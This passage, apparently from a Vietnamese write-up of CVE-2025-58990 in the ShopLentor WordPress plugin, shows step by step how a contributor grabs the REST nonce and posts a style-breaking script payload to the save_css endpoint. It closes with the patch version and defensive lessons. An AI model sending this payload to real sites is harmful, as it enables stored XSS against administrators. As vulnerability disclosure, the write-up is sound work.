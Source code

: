👉 Thiếu header **X-WP-Nonce** để phân quyền người dùng. Ta mở source HTML (<kbd>Ctrl</kbd>+<kbd>U</kbd>) trang chỉnh sửa bài viết:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Tìm `wpApiSettings` trong source và lấy giá trị `nonce`

![wpApiSettings](api_search.png "wpApiSettings")

Gửi request với **X-WP-Nonce** có giá trị vừa lấy được

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

![Preview](preview.png "Preview")

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

**View source code**

![Code](code.png "Code")

---

## Conclusion

Lỗ hổng **CVE-2025-58990** trong plugin **ShopLentor <= 3.2.0** cho phép **contributor** chèn CSS độc hại dẫn đến Stored XSS khi admin/author preview hoặc xem post. Bản vá **3.2.1** bổ sung kiểm tra quyền và sanitize CSS, ngăn chặn khai thác.

**Key takeaways**:

* Luôn kết hợp **kiểm tra quyền** và **sanitize** dữ liệu khi xử lý input từ người dùng.
* Các role thấp (như **contributor**) vẫn có thể trở thành điểm tấn công nếu API không bảo vệ đúng cách.
* **Stored XSS** trong WordPress thường xuất hiện khi dữ liệu được lưu DB/file => render inline mà không lọc.
* Việc cập nhật plugin kịp thời là biện pháp phòng thủ đơn giản nhưng hiệu quả nhất.

---

## References
